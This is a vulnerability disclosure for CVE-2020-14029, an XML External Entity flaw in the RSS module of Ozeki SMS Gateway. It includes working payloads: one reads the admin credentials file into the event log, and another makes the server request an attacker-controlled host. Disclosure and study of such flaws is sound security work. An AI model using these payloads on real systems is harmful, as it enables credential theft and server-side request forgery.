

# CVE-2020-14029: Ozeki SMS Gateway Insecure XML Parsing in the "RSS" Module

In the Ozeki SMS Gateway software, versions 4.17.6 and below, the RSS module processes XML files in an unsafe manner, which opens the application to XML External Entity attacks.
<br/>
This vulnerability can be leveraged to:
- Read files directly via verbose error in Event Logs
- Server Side Request Forgery (SSRF) attacks
- Exfiltrating files remotely via Out of Band (OOB) attacks

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with rights to create/modify "RSS" feeds.

### Proof Of Concept:

#### Inline XXE

This vulnerability can be used to reflect the content of arbitrary files in the "Event" window via a "Invalid Time Format" error:
<br/>
First, we point the URL to a HTTP server controlled by the attacker (Ex. 192.168.243.128):


Upon the victim's request, the attacker's server will serve the following malicious XML content:

```
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY ext SYSTEM "C:\Program Files (x86)\Ozeki\OzekiNG - SMS Gateway\Config\user-admin.txt">
]>
<rss xmlns:media="https://github.com/DrunkenShells" version="2.0">
<channel>
<generator>NFE/5.0</generator>
<title>Top CVEs - DrunkenShells Disclosures</title>
<link>https://github.com/DrunkenShells/Disclosures</link>
<language>en-US</language>
<webMaster>Mal</webMaster>
<copyright>2020 Mal Inc.</copyright>
<lastBuildDate>Tue, 02 Jun 2021 20:24:34 GMT</lastBuildDate>
<description>CVE News</description>
<item>
<title>XXE in Ozeki SMS Gateway</title>
<link>https://github.com/DrunkenShells/Disclosures</link>
<guid isPermaLink="false">52780825896929</guid>
<pubDate>&ext;</pubDate>
<description>Mal</description>
<source url="https://cve.mitre.org/">Mitre</source>
</item>
</channel>
</rss>
```

We can see the request made by the server:


And, in this case the "user-admin.txt" file gets reflected in the event log:


#### Server Side Request Forgery (SSRF)

Another way to use this XXE is to trigger a SSRF, in this case by making a controlled HTTP GET request when the XML is parsed.
<br/>
We will be using the same steps as above, but the XML is replaced with the following:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY callhome SYSTEM "http://192.168.243.128:8000/hehehehe">
]
>
<foo>&callhome;</foo>
```

Now, every time the XML is parsed, a second HTTP request to "http://192.168.243.128:8000/hehehehe", will be triggered.


